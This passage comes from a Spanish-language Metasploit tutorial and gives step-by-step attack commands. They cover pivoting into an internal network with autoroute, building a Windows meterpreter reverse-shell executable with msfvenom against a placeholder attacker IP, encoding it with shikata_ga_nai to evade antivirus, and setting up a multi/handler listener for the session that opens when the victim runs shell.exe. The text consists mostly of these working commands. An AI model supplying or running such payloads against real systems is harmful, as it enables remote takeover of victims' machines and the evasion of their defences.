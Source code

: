 ```bash
run autoroute -s 192.168.1.0/24
```

✅ Ahora tu Metasploit puede atacar **otras máquinas en la red interna** a través de la víctima.

---

### ✅ 7️⃣ Generar payloads personalizados (msfvenom)

✅ Básico:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=TU_IP LPORT=4444 -f exe -o shell.exe
```

✔ `-p` → payload

✔ `LHOST` → tu IP

✔ `LPORT` → puerto

✔ `-f exe` → formato ejecutable

✔ `-o shell.exe` → nombre del archivo

---

✅ Para evadir AV:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=TU_IP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o shell_encoded.exe
```

✔ `-e` → encoder

✔ `-i` → número de iteraciones

✅ Resultado: payload más difícil de detectar.

---

### ✅ 8️⃣ Listener en Metasploit

✅ Para recibir conexiones:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST TU_IP
set LPORT 4444
run
```

✔ Cuando víctima ejecute `shell.exe` → tendrás sesión.

---

### ✅ 9️⃣ Automatización con resource scripts
